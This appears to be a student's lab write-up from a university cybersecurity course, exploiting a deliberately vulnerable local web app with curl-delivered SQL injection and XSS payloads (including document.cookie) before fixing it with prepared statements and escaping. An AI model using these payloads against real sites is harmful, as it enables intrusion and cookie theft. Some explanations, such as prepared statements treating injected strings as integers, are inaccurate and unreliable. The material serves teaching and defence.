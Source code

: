 ```yaml
---
title: Cybersecurity2 - Introduction to secure systems - University of Lille
author:
  name: Pierre Lague & Paul-Henri ICHER
  link: 
date: 2024-02-10 09:45:00 +0800
categories: [Studies, U-Lille]
tags: [Python, Security, C]
math: true
mermaid: true
image:
  src: '/assets/posts/security/header.jpg'
  width: 800
  height: 600
---
```


# Cybersecurity Class🛡️

## Overview
This class is proposed as part of the first year of masters curriculum at the University of Lille and it overlooked by Pr Gilles GRIMAUD. It delves into four primary themes: permissions and secure file systems, SQL injections, XSS attacks and prevention methods, and cryptography with RSA and elliptic curves.

## Themes Explored

### SQL Injections
Exploring SQL injection vulnerabilities and implementing strategies to prevent malicious SQL injections, ensuring robustness of database systems.

### XSS Attacks and Prevention
Investigating cross-site scripting (XSS) attacks and implementing preventive measures to safeguard web applications against such vulnerabilities.
---
## Preface

After testing the application and entering some strings, we can observe them in the `strings` table:

```sql
mysql> SELECT * FROM strings;
+----+---------+-----------+
| id | txt     | who       |
+----+---------+-----------+
|  1 | hello   | 127.0.0.1 |
|  2 | bonjour | 127.0.0.1 |
|  3 | 33XD    | 127.0.0.1 |
+----+---------+-----------+
3 rows in set (0.00 sec)

```

## Question 1

Examining the source code of `server.py`, we have the following observations:
- the SQL query sent by the server after receiving the data is as follows: ```sql query = "INSERT INTO strings (txt, who) VALUES('" + post["string"] + "','" + cherrypy.request.remote.ip + "')" ```.

>* **What is this mechanism?**

We notice that in the source code of the page there is a `validate()` function. Within this function, there is a variable `regex = /^[a-zA-Z0-9]+$/;` acting as a filter on the string we enter in the application.
The `validate()` function checks that the entered string consists only of letters and numbers (so no spaces or other characters). If not, the function returns false.

>* **Is it effective? Why?**

The mechanism seems effective because it is not possible to insert spaces or `'` to inject a SQL expression.

## Question 2

>* **Your curl command**

```bash
curl 'http://localhost:8080/' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://localhost:8080' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/' -H 'Cookie: ExampleCookie="Cookie Value"' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' --data-raw 'string=SELECT * from strings;&submit=OK'
```

When looking at the database after execution, we get the following result:

```sql
mysql> select * from strings;
+----+-----------------------+-----------+
| id | txt                   | who       |
+----+-----------------------+-----------+
|  1 | hello                 | 127.0.0.1 |
|  2 | bonjour               | 127.0.0.1 |
|  3 | 33XD                  | 127.0.0.1 |
|  4 | hello                 | 127.0.0.1 |
|  5 | bonjour               | 127.0.0.1 |
|  6 | 33XD                  | 127.0.0.1 |
|  7 | SELECT * from strings | 127.0.0.1 |
+----+-----------------------+-----------+
7 rows in set (0.00 sec)

```
We were able to insert the string `SELECT * from strings`, which contains spaces and special characters. This shows that the `cURL` method allows us to bypass the security of the `validate` function.

## Question 3

>* **Your curl command that will allow you to add an entry by putting arbitrary content in the 'who' field**

```bash
curl -X POST http://localhost:8080/ -d "string=H4CK3RM4N','IT WAS FRANCOIS WHO DID THIS')#"
```
We can observe the following table:

```sql
mysql> select * from strings;
+----+-----------+--------------------------+
| id | txt       | who                      |
+----+-----------+--------------------------+
| 91 | H4CK3RM4N | IT WAS FRANCOIS WHO DID THIS |
+----+-----------+--------------------------+
1 row in set (0.00 sec)
```

* Explain how to get information on another table

Assuming that our `mysql` database has a `secret` table containing 1 entry. To access it, we would need to execute a query in the SQL injection in such a way that the injection ends and executes directly the other.

## Question 4

> see `server-correct.py`

To fix the security flaw, we can use `MySQL Parameterized Query using Prepared Statement`. This method allows us to execute queries with two prepared and separated fields, forcing any additional string (injection) to be considered as an integer value. Therefore, using the `cURL` command that worked previously, we are no longer able to modify the `who` field in the injection. We get the following database:

```sql
mysql> select * from strings;
+-----+-----------------------------------------+--------------------------+
| id  | txt                                     | who                      |
+-----+-----------------------------------------+--------------------------+
|  91 | H4CK3RM4N                               | IT WAS FRANCOIS WHO DID THIS |
|  92 | yoLeSang                                | 127.0.0.1                |
|  93 | yoLeSang                                | 127.0.0.1                |
|  94 | test                                    | 127.0.0.1                |
|  95 | test                                    | 127.0.0.1                |
|  96 | test                                    | IT'S THE HANDSOME GUY    |
|  97 | test                                    | 127.0.0.1                |
|  98 | test                                    | IT'S THE HANDSOME GUY    |
|  99 | test                                    | 127.0.0.1                |
| 100 | H4CK3RM4N                               | IT WAS FRANCOIS WHO DID THIS |
| 101 | H4CK3RM4N                               | IT WAS FRANCOIS WHO DID THIS |
| 102 | H4CK3RM4N                               | IT WAS FRANCOIS WHO DID THIS |
| 103 | H4CK3RM4N                               | IT WAS FRANCOIS WHO DID THIS |
| 104 | H4CK3RM4N','IT WAS FRANCOIS WHO DID THIS')# | 127.0.0.1                |
+-----+-----------------------------------------+--------------------------+
14 rows in set (0.00 sec)
```
We see that on line 104, our hardcoded injection is inserted into `txt` but the `who` contains our IP address.

## Question 5

>* Vulnerability study on the `server.py` file

We observe lines 

37 to 42 an insertion of data coming from the python code. We could try to empty the table, then insert an entry interpreted as `html` in which we would insert a `<script>` tag. **that's it**.

With the implementation of `Parametrized Queries`, then the `cURL` command below allows to trigger an alert `Hello!` to the user (or a prompt):

```bash
pierre.lague.etu@a04p16:~$ a='"Hello!"'
pierre.lague.etu@a04p16:~$ curl -X POST http://localhost:8080/ -d "string=<script>alert($a)</script>','')#"
```

This is possible because the string is interpreted as an `html` tag in the enumeration of the rows of the table.

>* curl command to read cookies

Similarly, we can extract cookies by creating a listener with `netcat` on a separate terminal. By modifying the `document.location` we can redirect the user to another page (ours `ip:port`):

```bash
curl -X POST http://localhost:8080/ -d "string=<script><script>alert(document.cookie)</script></script>','')#"
```

## Question 6

XSS belongs to the family of "Code Injection" vulnerabilities. Like all vulnerabilities in this family, they are due to a lack of validation of user inputs.

Every user input must be systematically checked and, if necessary, escaped before being inserted into an HTML page. This applies to parameters from forms but also to parameters contained in the potential URLs of the web application. Many libraries can be used to escape user inputs depending on the technology used by the web application.

In addition to this, it may be interesting to implement an application firewall or WAF. The role of such a firewall is to detect attempts to exploit XSS on the web application and block them before the code injection is executed on the victim's browser.

Furthermore, to prevent the exploitation of XSS from stealing users' cookies, it is recommended to set the "HTTPOnly" flag on session cookies. This will prevent access to cookies via JavaScript.

Finally, it is possible to configure the web server of the application to return certain headers for protection against XSS:

- X-XSS-Protection: enables the XSS filter of some recent browsers.

- Content Security Policy or CSP: the CSP defines the sources (images, CSS or JavaScript files) of a web application allowed to be loaded on users' browsers. A well-configured CSP will prevent a potential attacker from loading external JavaScript files through users' browsers.

---

🔒 Secure your systems, shield your data 🔒
